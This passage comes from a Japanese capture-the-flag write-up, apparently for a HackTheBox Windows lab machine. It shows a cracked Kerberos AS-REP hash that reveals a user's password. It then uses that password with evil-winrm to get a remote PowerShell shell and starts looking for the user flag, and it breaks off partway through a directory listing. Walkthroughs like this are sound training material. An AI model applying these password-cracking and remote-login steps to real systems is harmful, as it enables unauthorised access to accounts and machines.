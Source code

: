 $krb5asrep$23$fsmith@EGOTISTICALBANK:c932696d721341ea6010068a314f5239$f297602f9d43f04534e0a4cf7f4589ad9469c483ed5a331375fe035555c37acdf6d6211bdfaa7f165324979ab3d4240b05e391143f4e026138ecbaaede6b7fab1472dc29e3ae7d8bd703f320885391801f48686a2a197268c16bfc85a6ccf973583c64884a0738fbedbb427360730203fd05eae6fe78a0f8486cdffa0e0d64853d9cb94592ce3dc88a1ed8fa12bf65478a07d144ca6d733dc1a2077ce1ac58a2a39f393f6877b6995c6725be8c540b92095b56035ef5e7101ae2ae5a3c8c147bc810221b269a4596fb2a84099b0bba05d1b57e0f37b142c520fd4d5cabbbcb6f97e588b475fc1c343f9f1782a5347796d72e9db7a84dc5d7f3:Thestrokes23

Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, AS-REP
```


### evil-winrm

ユーザー名、パスワード共にわかったので今度は[evil-winrm](https://github.com/Hackplayers/evil-winrm)を使ってシェルの獲得を試みます。

WinRM (Windows Remote Management)が有効になっている場合にはシェルが獲得できる可能性があります。

まずはインストールします。

evil-winrmはRubyなのでgemを使ってインストールできます。


```
# gem install evil-winrm
```

その後、ユーザー名、パスワードを引数に与えて実行します。

```
evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23
```

結果
```
Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\FSmith\Documents> 
```

シェル獲得成功です！

あとは、Desktopに移動してuser.txtを開けばUser Own完了です。

```
*Evil-WinRM* PS C:\Users\FSmith\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\FSmith\Desktop> dir


    Directory: C:\Users\FSmith\Desktop
